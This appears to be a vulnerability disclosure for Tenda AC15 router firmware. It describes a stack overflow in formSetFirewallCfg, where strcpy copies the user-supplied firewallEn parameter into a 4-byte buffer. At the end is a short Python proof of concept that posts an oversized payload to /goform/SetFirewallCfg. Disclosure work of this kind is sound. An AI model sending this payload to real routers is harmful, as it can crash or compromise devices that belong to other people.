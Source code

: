 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formSetFirewallCfg` function. The `src` variable receives the `firewallEn` parameter from a POST request and is later assigned to the `dest` variable, which is fixed at 4 bytes. However, since the user can control the input of  `firewallEn`, the statement `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `firewallEn` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![image-20240305233936132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305233936132.png)

![image-20240314172148730](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314172148730.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetFirewallCfg"
payload = b"a"*1000

data = {"firewallEn": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314172220073](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314172220073.png)

